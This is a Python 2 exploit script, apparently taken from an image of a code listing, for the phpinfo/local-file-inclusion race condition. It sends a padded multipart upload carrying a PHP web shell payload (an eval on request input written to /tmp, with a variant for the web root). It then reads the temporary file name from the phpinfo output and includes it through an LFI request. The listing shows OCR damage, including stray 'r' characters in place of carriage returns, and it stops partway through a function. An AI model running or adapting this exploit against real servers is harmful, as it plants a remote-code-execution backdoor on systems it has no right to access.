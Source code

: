 ```python
#!/usr/bin/python
#python version 2.7

import sys
import threading
import socket

def setup(host, port):
    TAG = "Security Test"
    PAYLOAD = """%sr
<?php file_put_contents('/tmp/Qftm', '<?php eval($_REQUEST[Qftm])?>')?>r""" % TAG
    # PAYLOAD = """%sr
    # <?php file_put_contents('/var/www/html/Qftm.php', '<?php eval($_REQUEST[Qftm])?>')?>r""" % TAG
    REQ1_DATA = """-----------------------------7dbff1ded0714r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"r
Content-Type: text/plainr
r
%s
-----------------------------7dbff1ded0714--r""" % PAYLOAD
    padding = "A" * 5000
    REQ1 = """POST /phpinfo.php?a=""" + padding + """ HTTP/1.1r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=""" + padding + """r
HTTP_ACCEPT: """ + padding + """r
HTTP_USER_AGENT: """ + padding + """r
HTTP_ACCEPT_LANGUAGE: """ + padding + """r
HTTP_PRAGMA: """ + padding + """r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714r
Content-Length: %sr
Host: %sr
r
%s""" % (len(REQ1_DATA), host, REQ1_DATA)
    # modify this to suit the LFI script
    LFIREQ = """GET /index.php?file=%s HTTP/1.1r
User-Agent: Mozilla/4.0r
Proxy-Connection: Keep-Aliver
Host: %sr
r
r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i + 17:i + 31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()
```